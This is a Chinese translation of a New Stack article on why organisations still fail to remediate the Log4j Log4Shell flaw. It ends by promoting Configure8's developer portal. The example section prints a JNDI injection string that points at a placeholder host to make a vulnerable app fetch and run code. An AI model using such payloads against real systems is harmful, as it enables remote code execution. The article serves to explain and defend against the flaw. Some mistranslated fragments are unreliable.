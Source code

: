 # Log4j:组织未能补救此风险的原因

> 原文：<https://thenewstack.io/log4j-why-organizations-are-failing-to-remediate-this-risk/>

每年，安全研究人员[都会发现更多的软件漏洞](https://www.techrepublic.com/article/2021-marks-another-record-year-for-security-vulnerabilities/)，但有一个安全问题脱颖而出: [Log4j 的 Log4Shell 漏洞](https://venturebeat.com/security/csrb-log4j/)。2021 年 12 月，当研究人员在 Apache Log4j 库中发现一个远程代码执行漏洞时，很明显，数十亿使用 [Java](https://venturebeat.com/commerce/for-less-than-20-you-can-learn-the-ins-and-outs-of-java-programming/) 的设备面临风险。

关于 Log4j 的大部分喧嚣已经平息，但这并不意味着威胁已经过去。许多组织仍在努力消除这个漏洞。事实上，许多人仍然在发现他们仍然脆弱的过程中。与 1 月份相比，21%的具有易受攻击系统的组织报告 7 月份易受 Log4j 攻击的资产数量出现了三位数的百分比增长。

## **Log4j 是什么？**

Log4j 是一个应用程序日志库。应用程序记录诊断或错误消息等事件，用于故障排除和审计目的。

例如，许多微服务应用程序记录它们从用户那里收到的请求信息。这些日志为操作员、管理员和开发人员提供了有关服务使用方式和错误所在的重要信息。Log4j 最受欢迎的功能之一是一个健壮的变量系统，它使开发人员可以轻松地向日志消息添加动态信息。这也是远程执行漏洞所在的位置。

## **Log4j 漏洞是什么？**

2021 年 12 月， [NIST 公布了 Log4 中的漏洞 CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) ，俗称 Log4Shell。

Log4j 最强大的特性之一是它能够执行[查找](https://logging.apache.org/log4j/2.x/manual/lookups.html)，用运行时信息替换特殊格式的字符串。最基本的查找示例是事件的时间和生成事件的 Java 类。

查找的更高级用途包括使用 Java 命名和目录接口(JNDI)的环境变量或操作。)这些机制允许开发人员(和攻击者)到达应用程序之外，收集有关程序环境的信息或下载代码。

例如，Log4 可以转换这个日志消息:

```
logger.info("Received request in ${docker:containerName}");

```

通过用运行代码的 docker 容器替换变量**$ { Docker:container name }【T2:** 

```
10-19-2022  09:30:24  Received request in weblogic24

```

前缀 **docker** 告诉 Log4j 在 docker 中查找 **containerName** 属性。

## **一个 Log4Shell 示例**

查找是一个有用的特性，如果日志系统不能用运行时信息来丰富日志消息，那么它将几乎毫无用处。但是查找的两个属性使得 Log4Shell 攻击非常危险:

*   Log4j 处理日志消息中的所有变量，即使它们来自用户输入。
*   JNDI 让变量离开程序边界去寻找一个值成为可能，包括开放的互联网。换句话说，攻击者可以利用 JNDI 强迫程序下载恶意代码。

> 查找是一个有用的特性，如果日志系统不能用运行时信息来丰富日志消息，那么它将几乎毫无用处。

JNDI 的一个良性例子是这样的:

```
logger.debug  ("User under test: ${jndi :ldap://localhost:8080/o=UserObjectID}")

```

该日志消息将向运行在 **localhost** 上的服务请求一个用户对象，并执行它。在本例中，开发人员为用户对象创建了 URL，并将其指向一个受信任的系统。

但是当用户注入一个不可信的 URL 时会发生什么呢？

假设一个攻击者试图用一个恶意 JDNI 地址的用户名登录一个系统。登录失败，但是简单的目标应用程序将字符串传递给 Log4j:

```
logger.error("User login failed. Username: ${jndi :ldap://example.com:8080/maliciouscode} is not valid")

```

利用漏洞，应用下载有效载荷并执行。

即使攻击者不使用 JNDI 来攻击系统，他们仍然可以在请求中嵌入变量，欺骗应用程序记录有关其主机系统和环境的信息。这与不安全存储的日志文件相结合，可以为他们提供有关目标系统的信息。

Log4j 漏洞使得攻击者能够强迫应用程序运行恶意代码或记录机密信息。

## **为什么它仍然是一种威胁？**

由于其强大的功能和出色的性能，自 21 世纪初以来，封闭和开放源代码应用程序已经在其应用程序中嵌入了 Log4j 库。解决漏洞需要发现使用它的应用程序。然后，您必须从开发人员那里获得更新，或者手动替换 Log4j 库，并验证代码仍然工作。

Log4j 的普遍性使得这个过程的第一部分非常困难。对易受影响的应用程序和设备进行定位和分类是一项繁重的工作，许多公司没有完成这项工作所需的工具。

## **解决 Log4j 漏洞的最佳方法是什么？**

解决任何问题的第一步是规划，在这种情况下，规划必须包括发现需要用库的安全版本或不同的日志框架更新的应用程序和服务。虽然这似乎是一个显而易见的步骤，但许多公司在项目一开始就失败了。他们的努力还没开始就注定要失败。

当被问及如何缓解 Log4j 问题时，Forrester 的高级安全运营分析师 Allie Mellen 告诉 [Venture Beat](https://venturebeat.com/security/csrb-log4j/) “如果没有该功能在何处使用的准确清单，就很难跟踪它在企业中使用的每一个应用程序。

因此，从收集使用 Log4j 的应用程序清单开始。一旦您收集了这些信息，您就可以找到或指定一个所有者，并确保他们拥有缓解问题的资源。但是，收集库存很容易描述，但很难完成。您可能会想到一组包含应用程序信息的电子表格，以及一系列与保持它们最新相关的令人头痛的问题。幸运的是，有更好的工具。

## **内部开发者门户来救援**

管理大型补救流程需要围绕通用目录构建内部开发人员门户。这种类型的解决方案使您能够在一个地方组织所有的应用程序、服务、环境、云资源和关于它们的关键信息，如所有者、安装依赖项和安全漏洞。借助高级分析和记分卡，您可以衡量和管理团队修复漏洞的进度。

> 管理大型补救流程需要一个围绕通用目录构建的内部开发人员门户来跟踪服务。

[Configure8](https://www.configure8.io/) 提供了一系列全面的关键集成来帮助团队发现和解决 Log4j 问题，包括跨亚马逊网络服务(AWS)、Azure 和谷歌云平台(GCP)的云资源、存储库提供商和安全工具集成，以及可以在您的分布式系统的这个活知识地图上运行的不断扩展的分析套件。有了这样的解决方案，您可以快速映射您的系统，确定漏洞和负责补救的各方，并组织和跟踪一项计划来解决您组织中剩余的 Log4j 漏洞。

## **结论**

Log4j 漏洞仍然是许多公司面临的一个重大问题。一个主要原因是因为 Log4j 的普遍性使得公司很难识别受该问题影响的服务和系统。公司需要准确的服务清单，包括软件版本、安全状态、团队所有权、部署和其他相关信息。

但是存储在电子表格或任何其他人工输入系统中的库存只是另一个维护问题。补救像 Log4j 这样的大规模服务问题需要一个动态的系统清单，该清单可以快速装载数据，并为您提供有关服务状态的高级可视化和分析。

Configure8 拥有管理 Log4j 等大规模补救所需的工具。它为您提供了快速构建服务和资源目录的工具，然后深入了解各个组件及其依赖关系的信息。从那里，你就有了开始和跟踪你的努力所需要的所有工具。

<svg xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 68 31" version="1.1"><title>Group</title> <desc>Created with Sketch.</desc></svg>